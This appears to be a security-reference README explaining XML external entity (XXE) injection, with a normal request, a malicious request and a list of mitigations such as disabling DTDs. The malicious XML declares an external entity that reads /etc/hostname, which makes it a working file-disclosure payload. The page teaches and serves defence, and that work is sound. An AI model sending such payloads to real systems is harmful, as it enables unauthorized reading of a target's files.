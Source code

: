 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xxe-injection/main/xxe-injection.png"></p>

An adversary may interfere with an application's processing of extensible markup language (XML) data to view the content of a target's files

## Example #1
1. Adversary sends a vulnerable target a malicious request that contains a reference to an external entity (a system identifier)
2. The target's XML processor replaces the external entity with the content dereferenced by the system identifier 

## Code
#### Target-in
<?xml version="1.0" encoding="UTF-8"?>
<getLastName>John01</getLastName>

#### Target-Out
Jone Doe

#### Target-in
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE malicious [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<getInfo>&xxe;</getInfo>

#### Target-Out
usystem01

## Impact
High

## Names
- XXE injection
- XEE injection
- XML injection

## Risk
- Read data

## Redemption
- Secure processing
- Disable DTD and XML external entity

## ID
4b3566ce-3f7f-40d8-b882-09f59ca967b8

## References
- [wiki](https://en.wikipedia.org/wiki/XML_external_entity_attack)